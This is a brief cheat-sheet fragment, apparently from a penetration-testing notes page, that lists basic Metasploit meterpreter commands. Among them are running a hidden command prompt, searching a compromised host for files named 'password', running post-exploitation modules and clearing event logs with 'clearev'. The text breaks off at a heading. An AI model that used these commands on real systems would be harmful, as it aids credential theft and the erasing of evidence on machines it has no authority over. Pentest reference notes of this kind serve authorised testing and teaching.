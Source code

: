 # o - Metasploit  Basic Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
# spawn/execute cmd prompt from a meterpreter session
meterpreter > execute -f cmd.exe -i -H # launch any executable.
meterpreter > search -f password.* # search for all occurence of "password."
meterpreter > edit <file_path> # just like "cat" in linux.
meterpreter > run post/ # tap tab button for more option. you can run modules.
meterpreter > clearev # clear all logs (require admin priv).
```
{% endcode %}

## Meter



